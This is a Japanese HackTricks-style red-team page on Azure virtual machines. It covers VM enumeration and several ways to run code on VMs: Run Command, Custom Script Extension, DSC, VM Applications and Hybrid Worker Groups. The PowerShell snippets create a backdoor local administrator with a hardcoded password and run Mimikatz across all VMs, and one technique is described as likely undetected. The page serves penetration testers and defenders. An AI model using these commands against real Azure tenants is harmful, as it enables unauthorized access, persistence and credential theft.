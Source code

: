 # Az - 仮想マシン & ネットワーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)のいくつかのタイプの1つです。通常、他の選択肢よりもコンピューティング環境をより制御したい場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべきこと、作成方法、および管理方法についての情報を提供します。

## Azure ネットワーク情報

Azureネットワークには**異なるエンティティと設定方法が含まれています。** Azureネットワークエンティティの簡単な**説明**、**例**、および**列挙**コマンドは以下で見つけることができます:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、SSL経由でAzureポータル内の**仮想マシンに対して安全でシームレスなRDP**（Remote Desktop Protocol）および**SSH**（Secure Shell）**アクセス**を提供する完全に管理されたサービスです。このサービスは、**仮想マシンを公開インターネット接続にさらす代わりに**、より安全で便利な**代替手段**です。Azure Bastionは、Azure Virtual Network内にプロビジョニングされ、プライベートIPアドレスを使用してVNet内のすべてのVMにRDPおよびSSH接続を提供します。つまり、Azure VMにパブリックIPアドレスを割り当てる必要はありません。

したがって、会社が開発とテストのためにAzure VNet内にいくつかのVMをホストしている場合、**パブリックIPアドレスを設定し、RDPまたはSSHアクセスを有効にするために各VMのNSGルールを管理する代わりに**、**Azure Bastionをデプロイします**。Azure Bastionを使用すると、開発者やIT担当者は、パブリックIPアドレスを必要とせずに、安全にWebブラウザを使用してAzureポータルからこれらのVMに**アクセス**することができます。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
```
{% endcode %}

## VM 列挙
```
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADで認証されたユーザーにアクセスを許可することが可能です。例えば、**linux VM**へのアクセスを試みる場合: `ssh username@azure-corp.com@1.1.1.1` (ログインを試みる際に使用されるazurecorpの**メールアドレスを使用する**ことが重要です)、次のようなエラーが発生する可能性があります:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

これらの**指示に従って** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) にアクセスし、コードを指定して、メールアドレスとパスワードを認証情報として使用すると、SSH経由で接続できます（そのユーザーに十分な権限がある場合: `Virtual Machine Administrator Login` または `Virtual Machine User Login` ロール）。

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Run Custom Script Extension（カスタムスクリプト拡張を実行する）**

Azure virtual machine (VM) 拡張機能は、**Azure VM上で**の展開後の設定と自動化**タスク**を提供する**小規模アプリケーション**です。例えば、仮想マシンにソフトウェアのインストール、アンチウイルス保護、またはスクリプトを実行する機能が必要な場合、VM拡張機能を使用できます。

したがって、書き込み権限がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState

**DesiredConfigurationState (DSC)** はAnsibleに似ていますが、PowerShell内のツールで、コードを通じてホストを設定することができます。DSCにはAzureにその拡張機能があり、**設定ファイル**のアップロードが可能です。DSCの[設定ファイル](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document)は構文に非常に厳しいですが、DSC拡張機能は非常に騙されやすく、ある特定の形式に従っていれば、図5に示すように、**どんなコマンドでも盲目的に実行します**。

<figure><img src="../../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

これは、**Az PowerShell** 関数 [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) を通じて行うことができます。DSC拡張機能は、**.PS1** ファイルに**関数**が含まれ、**.zip** ファイルに**パッケージ化**されていることを要求します。これは実際には正しいDSC構文ではないため、拡張機能のステータスは「失敗」と表示されますが、コードは実行されます。この問題は、コマンドの出力がなく、ステータスが失敗メッセージで上書きされるためです。

### VM Application Definitions

[VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) リソースは、Azure VMに**バージョン管理されたアプリケーションを繰り返しデプロイする**方法です。例えば、**プログラム**を作成し、すべてのAzure VMにバージョン1.0として**デプロイ**した場合、プログラムを**1.1に更新**すると、同じVMアプリケーションを使用して**別の定義を作成し**、任意のVMに更新をプッシュできます。\
VMに**アプリケーションをプッシュする**ことができるということは、**コード実行**のための別の手段であることを意味します。この方法の欠点は、アプリケーション定義の設定に[**いくつかの手順が必要**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal)ですが、Az PowerShellの**`New-AzGalleryApplication`** および **`New-AzGalleryApplicationVersion`** コマンドレットを使用して達成できます。

この技術は、**拡張機能 "VMAppExtension"** を利用して動作し、VMにアプリケーションを適用すると自動的にインストールされます。拡張機能はURIからファイルをディスクにダウンロードし、アプリケーションの名前と_正確に_同じ名前で保存します。つまり、アプリケーション名が 'AzApplication' の場合、ディスク上のファイルも拡張子なしで 'AzApplication' と呼ばれます。これには、[REST APIコール](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update)の "ManageActions" フィールドを適切な拡張子でアプリケーションをリネームするように設定する必要があります。完全なアプリケーションを実行したくない場合は、同じREST APIメソッドのManageActionsフィールドを悪用するか、Azure Portalを通じて任意のPowerShellコマンドを実行することもできます。設定が完了すると、定義は図8のようになります。

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

この実行技術は残念ながら遅いです（アプリまたはコマンドを実行するのに約3-4分かかります）が、比較的新しいため、特定の検出が書かれているとは思われません。

実行を最終的に行うのが拡張機能であるため、アプリケーションのコピーは `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` にあり、実行のステータスは `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` に保持されます。

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) は、設定された**Runbook**を**設定されたHWG**の一部である**Azure Virtual machine**上で**実行**することを可能にします。再び、RunbookコードをVMにデプロイするためにVM上で**拡張機能が使用されます**。拡張機能が使用されるため、資格情報は関係なく、コードは**SYSTEM**またはrootとして実行されます。

<figure><img src="../../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

Windows 10 VMを使用する場合は、デフォルトではVMに7.1がインストールされていないため、RunbookがPowerShellバージョン5.1として実行されるようにすることが重要です。

## 参考文献

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>AWSのハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>
